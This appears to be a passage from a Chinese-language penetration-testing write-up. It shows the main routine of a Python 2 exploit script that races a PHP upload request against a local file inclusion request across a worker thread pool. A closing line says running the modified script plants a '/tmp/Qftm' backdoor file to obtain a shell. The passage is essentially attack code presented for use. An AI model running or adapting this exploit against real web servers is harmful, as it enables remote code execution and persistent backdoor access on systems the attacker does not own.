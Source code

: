 ```
    try:
        poolsz = int(sys.argv[3])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with poolsz %d: %s" % (sys.argv[3], e)
        sys.exit(1)

    print "Getting initial offset...",
    reqphp, tag, reqlfi = setup(host, port)
    offset = getOffset(host, port, reqphp)
    sys.stdout.flush()

    maxattempts = 1000
    e = threading.Event()
    l = threading.Lock()

    print "Spawning worker pool (%d)..." % poolsz
    sys.stdout.flush()

    tp = []
    for i in range(0, poolsz):
        tp.append(ThreadWorker(e, l, maxattempts, host, port, reqphp, offset, reqlfi, tag))

    for t in tp:
        t.start()
    try:
        while not e.wait(1):
            if e.is_set():
                break
            with l:
                sys.stdout.write("r% 4d / % 4d" % (counter, maxattempts))
                sys.stdout.flush()
                if counter &gt;= maxattempts:
                    break
        print
        if e.is_set():
            print "Woot!  m/"
        else:
            print ":("
    except KeyboardInterrupt:
        print "nTelling threads to shutdown..."
        e.set()

    print "Shuttin' down..."
    for t in tp:
        t.join()

if __name__ == "__main__":
    main()
```
- **运行脚本Getshell**
修改脚本之后，运行即可包含生成我们精心设置好的/tmp/Qftm后门文件
